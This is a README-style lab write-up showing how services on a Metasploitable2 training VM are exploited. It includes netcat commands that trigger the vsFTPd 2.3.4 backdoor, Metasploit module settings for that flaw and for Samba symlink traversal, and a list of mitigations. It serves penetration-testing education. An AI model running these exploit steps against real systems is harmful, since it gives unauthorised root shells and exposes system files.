


# Exploiting Vulnerable Network Services on Metasploitable2

**Network Enumeration • Service Fingerprinting • Manual Exploitation • Metasploit Framework • Samba Symlink Traversal**

This project demonstrates the discovery and exploitation of multiple vulnerable services on a **Metasploitable2** target machine. The engagement follows a realistic attacker workflow: reconnaissance, vulnerability identification, exploitation, and post-exploitation validation.

---

## Overview

The objective of this project was to simulate offensive security operations by:

- Enumerating all network-exposed services  
- Identifying vulnerable software versions  
- Performing manual exploitation (vsFTPd backdoor)  
- Executing automated exploitation using Metasploit  
- Exploiting a second service (Samba symlink traversal)  
- Interacting with the filesystem and enumerating system accounts

This mirrors real penetration testing and red-team workflows used in enterprise and academic cyber operations.

---

## 1. Network Reconnaissance and Service Enumeration

### Nmap Full Enumeration Scan

<p align="center">
  
</p>

**What this shows**

A full TCP scan using Nmap revealed numerous open and potentially vulnerable services, including:

- FTP (vsFTPd 2.3.4)  
- SSH  
- Telnet  
- SMTP  
- HTTP  
- MySQL and PostgreSQL  
- Samba (NetBIOS/SMB ports)  

This scan forms the basis of later exploitation phases by identifying the attack surface and exposing specific services and versions for targeted attacks.

---

## 2. Manual Exploitation of vsFTPd 2.3.4 Backdoor

**Vulnerability**

vsFTPd 2.3.4 contains a known backdoor triggered when a username ends with `:)`. When used, the daemon opens a shell listener on TCP port **6200**.

### Attack steps

```bash
nc <target_ip> 21
USER test:)
PASS test

# Backdoor shell listener opens on port 6200
nc <target_ip> 6200
```

Result:

- A root shell was obtained on the Metasploitable2 host.  
- System access was verified via commands such as: `hostname`, `pwd`, `ls`.

This demonstrates an unauthenticated remote code execution (RCE) condition caused by a backdoored FTP daemon.

---

## 3. Automated Exploitation with Metasploit

Metasploit streamlines exploitation by providing a dedicated module for this vulnerability.

Module: `exploit/unix/ftp/vsftpd_234_backdoor`


Example workflow:

```text
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target_ip>
exploit
```

Result:

- Metasploit automatically triggered the vsFTPd backdoor.  
- An interactive shell session was returned.  
- Access was validated using simple post-exploitation commands (e.g., `id`, `whoami`, `pwd`).

This highlights the difference between manual exploitation and leveraging an offensive framework for rapid, repeatable attacks.

---

## 4. Post-Exploitation Enumeration


Once shell access was obtained, `/etc/passwd` was enumerated to:

- Identify local user accounts  
- Enumerate system and service accounts  
- Understand the privilege model on the target  
- Discover potential lateral movement or privilege escalation paths

This step validates the depth of compromise and provides additional context for potential follow-on actions.

---

## 5. Secondary Service Exploit: Samba Symlink Traversal

**Vulnerability overview**

The Samba instance on Metasploitable2 is misconfigured in a way that allows:

- Creation of symbolic links inside writable SMB shares  
- Mapping those symlinks to the root (/) filesystem  
- Remote browsing of sensitive directories via SMB

This can result in unauthorized disclosure of system files over the network.



**Metasploit-assisted attack (example)**

```text
use auxiliary/admin/smb/samba_symlink_traversal
set RHOSTS <target_ip>
set SMBSHARE tmp
exploit
```

Followed by manual interaction:

```bash
smbclient //target/tmp
```

Result:

- SMB access to the writable share was established.  
- Symlink traversal enabled access to system-level directories.  
- Sensitive files became readable through the misconfigured Samba share.

This demonstrates how misconfigurations in file-sharing services can lead to serious information disclosure.

---

## 6. Attack Walkthrough Summary

**How vulnerabilities were identified**

- Nmap was used to enumerate open ports and services.  
- Service banners and versions were matched against known vulnerabilities.  
- vsFTPd 2.3.4 is a well-known backdoored build.  
- Samba with a writable share suggested potential symlink traversal abuses.

**Exploitation path**

- vsFTPd backdoor – unauthenticated root shell.  
- Metasploit automation – reliable exploitation of the same flaw.  
- Post-exploitation enumeration – verification of depth of compromise.  
- Samba misconfiguration – filesystem access over SMB.

**Key lessons learned**

- Legacy and unpatched services dramatically increase risk.  
- Misconfigured file-sharing services can expose critical system data.  
- Combining multiple vulnerabilities compounds impact.  
- Thorough enumeration is critical for effective exploitation.

---

## 7. Mitigation Recommendations

### FTP / vsFTPd
- Remove vsFTPd 2.3.4 immediately.  
- Replace FTP with secure alternatives (SFTP, FTPS).  
- Restrict access to file-transfer services to necessary hosts only.  
- Enforce strong authentication, logging, and monitoring.

### Samba
- Disable or strictly limit anonymous access.  
- Remove or heavily restrict writable shares.  
- Apply least-privilege principles to SMB directories.  
- Patch Samba to the latest stable version and routinely audit configuration.

### Network security
- Minimize exposed services and ports.  
- Enforce strict firewall rules around administrative and legacy services.  
- Use IDS/IPS to detect suspicious listeners and unauthorized access patterns.  
- Perform regular vulnerability scans and penetration tests.

---

## 8. Tools and Techniques Demonstrated

- Nmap – service and version enumeration, OS fingerprinting  
- Netcat – manual connection and backdoor interaction  
- Metasploit Framework – exploit module selection, configuration, and execution  
- SMB client tools – Samba share interaction and traversal  
- Linux post-exploitation – user and filesystem enumeration  
- Vulnerability analysis and exploit chaining

---

## Final Summary

This project walks through a complete offensive security workflow:

- Reconnaissance  
- Vulnerability identification  
- Manual and automated exploitation  
- Post-exploitation enumeration  
- Multi-service compromise and analysis

It demonstrates practical, hands-on experience in:

- Penetration testing methodology  
- Network and service enumeration  
- Exploit execution (manual and Metasploit-based)  
- Misconfiguration abuse (Samba symlink traversal)

These are core competencies for roles in:

- Penetration testing  
- SOC and incident response  
- Red team operations  
- Cybersecurity engineering
